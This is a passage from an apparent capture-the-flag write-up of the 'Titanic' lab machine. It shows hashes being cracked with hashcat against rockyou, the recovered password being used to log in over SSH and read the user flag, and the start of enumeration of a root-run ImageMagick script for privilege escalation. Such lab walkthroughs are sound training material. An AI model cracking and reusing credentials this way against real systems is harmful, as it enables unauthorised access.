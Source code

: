 ```bash
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
sha256:50000:P2jUsNUYPF1tgR1Vo2fdYw==:b03RxheBPaPcye4MewrrezE1zIWUPpKg5UECSGz/MUFN7S6urFMSkUpPMzrh8uLUMRA=
```

 We know `second` one is of developer so we also add username to match in format.

```bash
# Hashes
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

 Highly recommended to watch `Ippsec` video for more detail.

### Hashcat

```bash
❯ hashcat --username hashes rockyou.txt
```

After running `hashcat` we get password `25282528`

```bash
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```

Now we can just connect to Developer SSH using credentials we have.
### Into Developer's SSH

```bash
❯ ssh developer@titanic.htb
developer@titanic.htbs password: 
<SNIP>
Last login: Fri Mar 14 20:21:30 2025 from 10.10.14.143
developer@titanic:~$ ls
gitea  libxcb.so.1  mysql  user.txt
developer@titanic:~$ cat user.txt
56265a5ca4b123f4386de36c3de53d60      
```
## Privilege Escalation
### Enumerating Again

After logging in, **/opt/scripts** See a script next

```bash
developer@titanic:/opt$ ls
app  containerd  scripts
developer@titanic:/opt$ cd scripts
developer@titanic:/opt/scripts$ ls
identify_images.sh
developer@titanic:/opt/scripts$ cat identify_images.sh
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

